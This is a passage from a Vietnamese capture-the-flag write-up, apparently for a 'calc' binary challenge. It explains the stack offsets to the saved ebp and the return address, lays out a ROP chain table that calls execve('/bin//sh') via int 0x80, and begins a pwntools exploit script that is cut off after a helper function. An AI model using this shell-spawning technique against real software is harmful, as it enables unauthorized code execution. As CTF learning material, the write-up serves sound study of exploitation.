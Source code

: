 Đổi --11720 => hex = 0xffffd238 = ebp_main

Mình show stack cho dễ hình dung chỗ này, thế quái nào mình cần gần 2 tiếng ở đây...

| return address |   
|----------------|
|  ebp main func |  
|       ...      |
|       ...      |
|      v1[1]     |
|      v1[0]     |

  ebp main func   **<- ebp calc func <- v1[360]**

**0x5A0 = 1440 = 360\*4, với mảng kiểu int kiến trúc x86 => mỗi stack ứng với 4bytes => offset = 360**


Đây chính là lý do mà v[360] => giá trị ebp main = prev_ebp

Return address ngay trên prev_ebp => offset là 361, do đó từ offset 361 trở đi ta sẽ tiến hành ghi các gadgets.

Cụ thể ta sẽ set up stack như sau 

|  offset |       inject          |
|---------|-----------------------|
|   778   |       "//sh"          |
|   777   |       "/bin"          |
|   ...   |        ...            |
|   ...   |        ...            |
|   367   |      int 0x80         |
|   366   | address of "/bin//sh" |
|   365   |       0x00            |
|   364   |       0x00            |
|   363   |  pop_edx_ecx_ebx_ret  |
|   362   |       0x0b            |
|   361   |    pop_eax_ret        |
|   360   |      prev_ebp         |


### Exploit

```python
from pwn import *

sh = 0x68732f2f
bin = 0x6e69622f

offset_ebp = 32

def toInt(s):
    s = s.strip()
    if not s.startswith(b'-'):
        return int(s)
    else:
        return (int(s[1:]) ^ 0xffffffff) + 1
```